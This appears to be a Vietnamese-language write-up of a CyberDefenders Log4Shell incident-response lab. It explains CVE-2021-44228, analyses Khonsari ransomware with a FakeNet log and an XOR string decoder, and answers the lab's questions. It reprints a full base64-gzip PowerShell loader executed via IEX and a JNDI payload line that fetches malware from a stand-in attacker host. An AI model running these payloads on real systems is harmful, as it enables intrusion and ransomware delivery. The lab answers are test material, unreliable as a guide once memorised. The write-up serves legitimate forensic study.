









# Log4Shell (CVE-2021-44228) {#34a7b0eb61a48071b5e8d6db8e901371}


Là một trong những lỗ hổng bảo mật nổi tiếng nhất. 

- Log4j là một thư viện ghi nhật ký (logging library) mã nguồn mở nhỏ gọn do Apache phát triển, được viết bằng Java.
- Khi server hoạt động thì log4j sẽ ghi lại mọi thứ vào tệp nhật ký: người dùng đăng nhập, nhập sai mật khẩu, lỗi 404,…
- Rất phổ biến: từ máy chủ apple, amazon, đến minecraft
- Lỗ hổng nằm ở một tínhy năng JNDI Lookup (java naming và directory interface)
	- Có thể thay thế biến số bằng thông tin thực tế khi ghi log. Vd: nếu cần $[java:version], nó sẽ không ghi nguyên xi dòng chữ đó ra mà đi tìm phiên bản java đang dùng là gì và báo lại
	- Tính năng này không chỉ truy vấn bên trong máy chủ mà còn có thể kết nối ra internet thông qua giao thức như LDAP, RMI

Hacker lợi dụng như thế nào:

- Hacker tìm cách gửi một chuỗi văn bản đặc biệt vào hệ thống:
	- $[jndi:ldap://may-chu-hacker.com/malware]. Chúng có thể nhét chuỗi này ở form tìm kiếm, đăng nhập, hoặc trong user-agent
- Hệ thống nhận dữ liệu, log4j thấy gọi jndi liền kết nối ra internet và chạy tới địa chỉ kia lấy thông tin, thành ra tải luôn malware về
- Vì việc tấn công quá đơn giản nên thành ra nghiêm trọng CVSS: 10/10

# Analysis {#34a7b0eb61a480a5a284e1bf7928a3c8}


| 12/28/2021	12:31:16 PM | Host: .WIN-B633EO9K91M- mnmsrvc<br/>VMware: [vcw65.cyberdefenders.org](http://vcw65.cyberdefenders.org/)	<br/>User: VCW65\Administrator | Name: Trojan:Win32/Tiggre!rfn<br/>Category: Trojan<br/>Path: file:_C:\Users\Administrator.WIN-B633EO9K91M\Desktop\VMWARE.VCENTER.SERVER.V6.0.CRACKFIX-MAGNiTUDE\VMWARE.VCENTER.SERVER.V6.0.CRACKFIX-MAGNiTUDE\m-vmvcs6crkf.rar<br/>Detection Origin: Local machine |
| ---------------------- | --------------------------------------------------------------------------------------------------------------------------------------- | ------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------ |
|                        |                                                                                                                                         |                                                                                                                                                                                                                                                                    |
|                        |                                                                                                                                         |                                                                                                                                                                                                                                                                    |


```c++
slmgr -dlv
slmgr -rearm
cd C:\Users\Administrator\Desktop\AD-Lab-Generator-master\AD-Lab-Generator-master\src
& '.\Generate AD Lab.ps1' -help
& '.\Generate AD Lab.ps1' /?
Get-Help '.\Generate AD Lab.ps1'
& '.\Generate AD Lab.ps1' -examples
Get-Help '.\Generate AD Lab.ps1' -examples
& '.\Generate AD Lab.ps1' -Domain 'cyberdefenders.org' -TargetLocation 'OU=Log4Shell,DC=cyberdefenders,DC=org' -NumberOfUsers 32 -CleanRoles -ExportPasswords
& '.\Generate AD Lab.ps1' -Domain 'cyberdefenders.org' -NumberOfUsers 32 -CleanRoles -ExportPasswords

```


D:\Users\Administrator.WIN-B633EO9K91M\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline


```c++
# BƯỚC 1: Đọc chuỗi Base64 chứa mã độc đã được nén Gzip
$Base64String = "H4sIAAAAAAAAANVW..." 

# BƯỚC 2: Chuyển chuỗi Base64 đó thành mảng Raw Bytes (dữ liệu thô)
$Bytes = [Convert]::FromBase64String($Base64String)

# BƯỚC 3: Nạp mảng Bytes đó vào bộ nhớ RAM (MemoryStream)
$s = New-Object IO.MemoryStream(, $Bytes)

# BƯỚC 4: Giải nén luồng dữ liệu trong RAM bằng GzipStream
$Gzip = New-Object IO.Compression.GzipStream($s, [IO.Compression.CompressionMode]::Decompress)

# BƯỚC 5: Đọc toàn bộ dữ liệu sau khi giải nén chuyển thành văn bản (chính là script mã độc thật)
$Reader = New-Object IO.StreamReader($Gzip)
$DecodedScript = $Reader.ReadToEnd()

# BƯỚC 6: KÍCH NỔ (Đây là bước nguy hiểm nhất)
# IEX (Invoke-Expression) sẽ lấy đoạn script vừa giải nén và ra lệnh cho PowerShell chạy nó ngay lập tức.
IEX $DecodedScript
```


$s=New-Object IO.MemoryStream(,[Convert]::FromBase64String("H4sIAAAAAAAAANVWaW/iSBD9HH6FN0Ia0CQcCeQajTRtsMEeTDDGNgRFK2M3pqF9jN3mmNH89y0fYYdkd1ba1a60LaF2N1Wv3qu+SsPsUmMRsZkSOJi7NHAUk8DnrkqlMia2FXEfuXfvYNANJAbfn96VylYcY29BD+nwvHSWxMR3Oe0QM+x9OB3WxonPiIdrks9wFIQajrbExjGY+ZaH49CyMUf8NbYZ9610dhYmC0pszqYQglsmvp3Nns1FarnxM1f8jf3E4xClgW0x4Do5hJj7xnUCzyMpxca+2Wg0LrgxjiEczmauYIb7/mdYCvaC6DCKAgZEUvXfOGGP7YThMbYcMyIsR2n9BGMCMrkHLiE+SOEkf0n8FzexaIVzl1LJC4OIVc43OPIxvb6qOZSeV4+AMQNhgLuHpPmAxUYs4gwSscSime5KMUdD5DgRjuOLPLCz08hXXAyW9DRHx+lCaPXDP6HTibDF8GQFnfM7nXyMGOyoBaTvB17Msjc5uaMxzEXsKOA4PbIi2BsQ6+icxQIVWdp/sMyjSc7fVJKCmxZhYhBpsGcpflykO/FFzapv+Q4FwtnSOjuFUEpibAe+E2cRYTm/l84/weGwAy8kFKeHZYh3lzkOpxA7CuJgyWodbWVFYdF14KDBEmyJg6NSOUzVxqeOxeFJDbtB2ufox49jhuIX/9oYL3GEfRs7KD+dBMc1yO3Y8l1c+VQ5LzDTfFxw81Gch3quFeaH2qDYKtXqEbSHfRzBKkt+fkKAZXkSJbhUhiVLaHrYjtJfyL3giVHgaUES2bhSwF1wx5ujWirN+QPD8+fn8taKfrXTu+cjNz8K97c4Ys8PDykKb8X4ppVeUr5bOa8LpNsedYMDgiaIY9XgNd14khRHpprEtJlABvpqJZGm5ML4oAvuiDXCz5NJX9a6fRR196slkmJJ6PMHtckju09uDZnXdfAjnYG63kvI4T136s46O7lpBwkiWSwi7vpjX0N9VZeY1BO0gdrhZeR018ZmXT/ovcFQWoHv01CxqaTYnVi1+3JXF/jdZO06S1FBjd2mI+jtxnQ6MzP/sZzGUmexoqVjfp+OebLTpDSOaqx4U2w/mRtxphqUNzeke9vheX1bd01BhHkyEBI6qkObmgHSFu1ry2yHC89oQG5MbeZ7E8nfq4tQcQ6zfv3ekDJujgwc+ZQnrwuiqi6CG8P3/Pr9NLKboURskU+6GxGhwkYXx5Y7hL53Y7S85X5bN26adKFJPg851SDOLM2v7rkIeaCQynySMGOw3tabOpH3wHvX5L906L1ElqJEnFDe33VT2vXML7UnjV6vD/azKeq2TAepCGmj+qjb0pT0++Z+FLaRgNAjIanfoNEe2fod+vcbb9hXxmGgi/6T2W48En64uA7DRW+/GnxVE6WDgtnVPbN7YsMy5fhpErsTYyiPNdQarNGtJDqwHuOtc624E6q6Q621fzzwuu3RTYqXYXRjVzPb3qLJr5yemyhkM+y4/4G0/3FTF7c7Zslmvqe9G1gnOKO9VtpB31ZR1t+Yn8eT9rJuaPJwojeI3IbfHezJqw3YdlIbT34P+1oILbkF+1qTRoIkTZEzePLIzpGQ/Qjnfjo1xdVMQ3oWW1dGgV+/rte/Cm2FtPbDNazZRDgM1sLhseB3DndceZEsl9mrMM+LnFpa08C1dvKWQ6lyvARrA+y7bMW955oXJ07vT99ywHgpby4Xj9FfmOal0SvA10UP2L0ueqolsuQqcz4I6PMvhZgqVDels7JLg4VFH47vwPUHmI0wS+BdLX0vzX9e/9UUK4pXFs24hYfKUf8Fl2Yjj/Q2LdXSPH+bn7kyy97+t6k9qUsap3j5sHEqKweqppXmG1W3p6qKZ+/qbdQ/KiMK5FdpT4sJcHgpEKuld1BASCmfQtrDQwxlEneJv3B3GStJmHJZ+Q0MfgPEWlHOrwsAAA=="));IEX (New-Object IO.StreamReader(New-Object IO.Compression.GzipStream($s,[IO.Compression.CompressionMode]::Decompress))).ReadToEnd();


Tiếp tục giải mã base64 ta được





khonsari.exe: F2E3F685256E5F31B05FC9F9CA470F527D7FDAE28FA3190C8EBA179473E20789

- **Log4Shell Exploitation:** Khonsari is delivered as a follow-up payload after attackers use the Log4j vulnerability (CVE-2021-44228) to compromise a system.
- **Targeting & Distribution:** First spotted on November 30, 2021, and actively seen around December 11, 2021, it has been observed targeting Windows machines, including self-hosted Minecraft servers.
- **Encryption and File Extension:** The ransomware uses AES-128 encryption to lock files and appends the "**.khonsari**" extension to them.

## Phân tích mã độc khonsari {#34a7b0eb61a48095a8d0c7e7732baefb}


Bật fakenet và chạy thử khonsari


04/22/26 11:46:45 AM [          Diverter] khonsari.exe (4384) requested TCP 3.145.115.94:80
04/22/26 11:46:45 AM [    HTTPListener80]   GET /zambos_caldo_de_p.txt HTTP/1.1
04/22/26 11:46:45 AM [    HTTPListener80]   Host: 3.145.115.94
04/22/26 11:46:45 AM [    HTTPListener80]   Connection: Keep-Alive


```c++
def decode_khonsari_string(ciphertext_hex_or_escaped, key):
    """
    Giải mã chuỗi XOR obfuscation của Khonsari Ransomware.
    Cường chỉ cần nhập ciphertext dạng raw string và key vào là chạy.
    """
    decrypted = []
    key_length = len(key)
    
    for i in range(len(ciphertext_hex_or_escaped)):
        # XOR ký tự của ciphertext với ký tự tương ứng của key (lặp lại key nếu cần)
        char_code = ord(ciphertext_hex_or_escaped[i]) ^ ord(key[i % key_length])
        decrypted.append(chr(char_code))
        
    return "".join(decrypted)

# --- Thử nghiệm với các biến trong mã nguồn ---

# 1. Tìm ổ đĩa bị bỏ qua
c_drive = decode_khonsari_string("2w\x15", "qMIamfMA")
print(f"Skipped Drive: {c_drive}")

# 2. Tìm thư mục mục tiêu
target_folder = decode_khonsari_string(")=&\x04%%&#\x1e", "mRQjIJGG")
print(f"Target Folder: {target_folder}")

# 3. Tìm phần mở rộng của file bị mã hóa
extension = decode_khonsari_string("T)\x04\x0c/4+3\x13", "zBlcAGJA")
print(f"Extension: {extension}")
```


Q1 What is the version of the VMware product installed on the machine?





Q2 What is the version of the log4j library used by the installed VMware product?





Q3 The attacker used the log4shell.huntress.com payload to detect if vcenter instance is vulnerable. What is the first link of the log4huntress payload?





log4shell.huntress.com:1389/b1292f3c-a652-4240-8fb4-59c43141f55a


Q4 What is the attacker's IP address?


Q5 After exploiting the Log4j vulnerability and confirming the vCenter instance's vulnerability using the `X-Forwarded-For` header with port 1389, the attacker established a reverse shell to gain further control of the system. Identify the port explicitly used to receive the Cobalt Strike reverse shell.





Q6 What is the script name published by VMware to mitigate log4shell vulnerability?





Q7 In some cases, you may not be able to update the products used in your network. What is the system property needed to set to 'true' to work around the log4shell vulnerability?


log4j2.formatMsgNoLookups





Q8 [Google Search] During your investigation into the Log4j vulnerability CVE-2021-44228, which allows for remote code execution through attacker-controlled LDAP endpoints, identify the earliest version of Log4j that introduced a patch to mitigate this critical vulnerability.


 2.15.0


Q9 Removing JNDIlookup.class may help in mitigating log4shell. Analyze JNDILookup.class. What is the value stored in the CONTAINER_JNDI_RESOURCE_PATH_PREFIX variable?





java:comp/env/


Q10 What is the executable used by the attacker to gain persistence?





 `baaaackdooor.exe`


Q11 The ransomware downloads a text file from an external server. What is the key used to decrypt the URL?


GoaahQrC


Q12 What is the ISP that owns that IP that serves the text file?. Use your host for this question as the machine does not have an internet connection.


Q13 The ransomware check for extensions to exclude them from the encryption process. What is the second extension the ransomware checks for?

- **`.khonsari`** (Check 1): Đuôi này được bỏ qua để mã độc không tự mã hóa lại những file nó đã mã hóa rồi (tránh hỏng file hoàn toàn khiến nạn nhân không thể chuộc lại).
- **`.ini`** (Check 2): Các file như `desktop.ini` là file cấu hình hệ thống cơ bản của Windows, bỏ qua để tránh gây lỗi hiển thị thư mục.
- **`ink`** / `.lnk` (Check 3): Bỏ qua các file shortcut biểu tượng.
- Tên file `HOW TO DECRYPT YOUR FILES.txt`: Bỏ qua chính tờ giấy đòi tiền ảo của nó.
